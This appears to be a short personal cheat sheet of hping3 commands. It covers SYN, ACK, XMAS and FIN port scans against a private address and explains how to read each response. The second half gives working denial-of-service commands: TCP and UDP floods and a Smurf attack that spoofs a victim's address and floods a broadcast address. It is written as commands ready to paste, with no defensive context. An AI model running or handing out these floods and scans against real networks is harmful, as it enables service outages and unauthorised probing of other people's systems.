 Date: 25-09-2024 08:41

Tags: [[Hacking]] [[Port Scanning]] [[DoS]]

---

## Scaning a port

`hping3 192.168.0.1 -p 80`

## Scannig a range of ports (Syn scan)

`hping3 192.168.0.1 -S --scan 20-100`

## ACK scanning

`hping3 192.168.0.1 -p 80 -A`

The ACK scan will return with a RST flag (R), which means the port is there, just no service running
Or will return an Destination Unreachable if theres a firewall etc.

### XMAS scan (or FIN scan)
`hping3 192.168.0.1 -p 445 -X`
or
`hping3 192.168.0.1 -p 445 -F`

If the port is not filtered, there is no response
If the port is filtered, there will be Destination Unreachable

## DoS
`hping3 -F --flood -p 80 192.168.0.1`

or, using UDP:
`hping3 --udp --flood -p 80 192.168.0.1`

### Smurf DoS attack
`hping3 --icmp --flood -c 1000 --spoof 192.168.0.5 192.168.0.255`

Sends a package to the broadcast (192.168.0.255), all hosts in the network receive the package
ALL hosts will then respond the package the decoy IP we set (192.168.0.5)